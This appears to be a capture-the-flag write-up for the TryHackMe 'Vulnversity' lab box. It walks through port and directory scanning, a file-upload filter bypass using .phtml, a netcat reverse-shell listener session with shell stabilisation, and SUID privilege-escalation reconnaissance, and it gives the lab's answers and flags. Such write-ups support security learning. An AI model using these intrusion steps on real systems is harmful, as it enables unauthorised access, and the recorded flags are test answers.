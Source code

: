 This is my writeup for the Try_Hack_Me box - Vulnversity
The box showcases web exploiation and set uid priv escalation.
 
> Pratyush Prakhar (5h1NcH@n010) - 11/01/2020

# RECONNAISSANCE

2. Scan the box, how many ports are open?- **6**
	
	1. Ran a quick scan for all ports

	```bash
	sudo nmap -p- -vv 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 22:50 EST
	Initiating Ping Scan at 22:50                                                                                                                                         ............                                                                                                          
	Initiating SYN Stealth Scan at 22:50
	Scanning 10.10.237.128 [65535 ports]
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 4.77% done; ETC: 23:01 (0:10:19 remaining)
	.......
	SYN Stealth Scan Timing: About 77.43% done; ETC: 23:03 (0:02:58 remaining)
	Discovered open port 3128/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 82.85% done; ETC: 23:03 (0:02:17 remaining)           
	```

	2. Then ran a standard scan for the specific ports found - **21,22,139,445,3128,3333**

	```bash
	sudo nmap -vv -sC -sV -p21,22,139,445,3128,3333 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 23:03 EST
	NSE: Loaded 153 scripts for scanning.
	.........
	Initiating SYN Stealth Scan at 23:03
	Scanning 10.10.237.128 [6 ports]
	Discovered open port 3128/tcp on 10.10.237.128
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	Completed SYN Stealth Scan at 23:03, 0.24s elapsed (6 total ports)
	Initiating Service scan at 23:03
	Scanning 6 services on 10.10.237.128
	Completed Service scan at 23:03, 22.30s elapsed (6 services on 1 host)
	NSE: Script scanning 10.10.237.128.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 5.94s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 1.21s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 0.01s elapsed
	Nmap scan report for 10.10.237.128
	Host is up, received reset ttl 61 (0.17s latency).
	Scanned at 2020-11-01 23:03:20 EST for 30s
	PORT     STATE SERVICE     REASON         VERSION                                                                                                                                                               
	21/tcp   open  ftp         syn-ack ttl 61 vsftpd 3.0.3
	22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5	
	/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
	|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
	|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
	139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
	3128/tcp open  http-proxy  syn-ack ttl 61 Squid http proxy 3.5.12
	|_http-server-header: squid/3.5.12
	|_http-title: ERROR: The requested URL could not be retrieved
	3333/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
	| http-methods:
	|_  Supported Methods: OPTIONS GET HEAD POST
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Vuln University
	Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	Host script results:
	|_clock-skew: mean: 1h39m57s, deviation: 2h53m12s, median: -3s
	| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
	| Names:
	|   VULNUNIVERSITY<00>   Flags: <unique><active>
	|   VULNUNIVERSITY<03>   Flags: <unique><active>
	|   VULNUNIVERSITY<20>   Flags: <unique><active>
	|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
	|   WORKGROUP<00>        Flags: <group><active>
	|   WORKGROUP<1d>        Flags: <unique><active>
	|   WORKGROUP<1e>        Flags: <group><active>
	| Statistics:
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
	| p2p-conficker: 
	|   Checking for Conficker.C or higher...
	|   Check 1 (port 14476/tcp): CLEAN (Couldn't connect)
	|   Check 2 (port 46485/tcp): CLEAN (Couldn't connect)
	|   Check 3 (port 37058/udp): CLEAN (Failed to receive data)
	|   Check 4 (port 47439/udp): CLEAN (Failed to receive data)
	|_  0/4 checks are positive: Host is CLEAN or ports are blocked
	| smb-os-discovery: 
	|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
	|   Computer name: vulnuniversity
	|   NetBIOS computer name: VULNUNIVERSITY\x00
	|   Domain name: \x00
	|   FQDN: vulnuniversity
	|_  System time: 2020-11-01T23:03:41-05:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2020-11-02T04:03:42
	|_  start_date: N/A
	```

	3. What version of the squid proxy is running on the machine? - **3.5.12**

	4. How many ports will nmap scan if the flag -p-400 was used? - Basically translates to -p1-400. - **400**

	5. Using the nmap flag -n what will it not resolve? - can be found in **man page of nmap** - **DNS**

	6. What is the most likely operating system this machine is running? - Leaked from the smb enum script - **Ubuntu**

	7. What port is the web server running on? - Service running on Apache Web Server - **3333**


# GOBUSTER
	
2. What is the directory that has an upload form page? - **/internal/** - Upload

**GOBUSTER OUTPUT**

```bash
gobuster dir -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://10.10.237.128:3333"

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.237.128:3333
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/01 23:57:56 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
..........
===============================================================
2020/11/01 23:58:22 Finished
===============================================================
```

# Web Exploit

**Images**

1. What common extension seems to be blocked? - **.php**

3. What extension is allowed? - **.phtml**

4. Stabilizing shell

```bash
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888
listening on [any] 8888 ...
connect to [10.2.44.183] from (UNKNOWN) [10.10.25.49] 44380
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
01:32:54 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ ^Z
[1]+  Stopped                 nc -lnvvp 8888
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ stty raw -echo
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888
                                                                                                                                                                                                                
www-data@vulnuniversity:/$ l                                   
```

5. What is the name of the user who manages the webserver? - **bill**

```bash
www-data@vulnuniversity:/home$ ls
bill
```

6. What is the user flag? - **8bd7992fbe8a6ad22a63361004cfcedb**

```bash
www-data@vulnuniversity:/home/bill$ ls
user.txt
www-data@vulnuniversity:/home/bill$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb
```

# Privilege Escalation


**LINPEAS OUTPUT**
```bash
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root   root        44K May  7  2014 /bin/ping6
.......
-rwsr-xr-x 1 root   root        23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-sr-x 1 root   root        97K Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root       419K Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root       645K Feb 13  2019 /bin/systemctl
```

1. On the system, search for all SUID files. What file stands out? - **/bin/systemctl**

2. What is the root flag? - **a58ff8579f0a9270368d33a9966c7fd5**

